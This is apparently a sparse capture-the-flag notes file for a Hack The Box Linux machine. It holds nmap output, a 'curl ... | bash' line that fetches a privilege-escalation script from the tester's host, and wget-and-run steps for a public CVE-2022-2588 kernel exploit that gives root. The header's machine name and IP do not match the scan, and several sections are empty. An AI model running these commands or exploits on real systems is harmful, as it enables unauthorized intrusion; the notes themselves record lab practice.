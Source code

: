 # Summary



## about target

tip:  10.129.228.124

hostname:  Reel

Difficulty:  Hard



## about attack

+ http response header, contains domain name.
+ Rocketchat, robot read file; /proc/self/environ, got password.
+ Lpeas enum, found the cve vuln, try revert if failed.





**attack note**

```bash
paper / 10.129.99.51

PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 1005ea5056a600cb1c9c93df5f83e064 (RSA)
|   256 588c821cc6632a83875c2f2b4f4dc379 (ECDSA)
|_  256 3178afd13bc42e9d604eeb5d03eca022 (ED25519)
80/tcp    open   http         Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods:
|_  Potentially risky methods: TRACE
443/tcp   open   ssl/http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| tls-alpn:
|_  http/1.1
| http-methods:
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_ssl-date: TLS randomness does not represent time
3239/tcp  closed apparenet-ui
15692/tcp closed unknown
25090/tcp closed unknown
34488/tcp closed unknown
34798/tcp closed unknown
37098/tcp closed unknown
39138/tcp closed unknown
41978/tcp closed unknown
43844/tcp closed unknown
53134/tcp closed unknown


---- Enum 


---- Foothold


---- System
curl -L http://10.10.14.14/lpeas.sh | bash | tee dwight-lp.log



```







# Enum

## nmap scan



```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```



# Foothold





# Privesc



![image-20230122121709541](./images/image-20230122121709541.png)



https://github.com/Markakd/CVE-2022-2588/tree/e8f095689777f1e95bd65c93eb1ad242b2dbc737



```bash
wget https://github.com/Markakd/CVE-2022-2588/raw/e8f095689777f1e95bd65c93eb1ad242b2dbc737/exp_file_credential

wget http://10.10.14.14/exp_file_credential
chmod +x ./exp_file_credential

./exp_file_credential 
```

![image-20230122121835989](./images/image-20230122121835989.png)

exploit successful, but ssh disconnected.

Reconnect and su to user, got root.

```bash
su user
# password is user
```

![image-20230122121942401](./images/image-20230122121942401.png)



## proof

```bash


```



